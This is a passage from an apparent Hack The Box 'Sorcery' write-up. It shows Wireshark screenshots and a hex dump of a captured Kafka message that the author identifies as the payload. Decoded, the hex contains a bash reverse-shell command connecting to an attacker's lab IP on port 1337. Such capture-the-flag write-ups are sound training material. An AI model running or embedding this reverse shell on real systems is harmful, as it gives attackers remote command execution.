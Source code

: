 ![Wireshark](/assets/img/sorcery-htb-season8/sorcery-htb-season8_wireshark_follow.png)

Will see a raw bytes, check each of them and see that this one is the one we need.

![Wireshark](/assets/img/sorcery-htb-season8/sorcery-htb-season8_wireshark_raw.png)

```bash
000000b3000000070000000200176b61666b612d707974686f6e2d70726f64756365722d31ffff0001000075300000000100067570646174650000000100000000000000720000000000000000000000660000000002751178f4000000000000000001977ba82987000001977ba82987ffffffffffffffffffffffffffff0000000168000000015c2f62696e2f62617368202d69203e26202f6465762f7463702f31302e31302e31342e31302f3133333720303e263100
```

Cause when you select this one, we can see there is our payload.

![Wireshark](/assets/img/sorcery-htb-season8/sorcery-htb-season8_wireshark_raw_2.png)
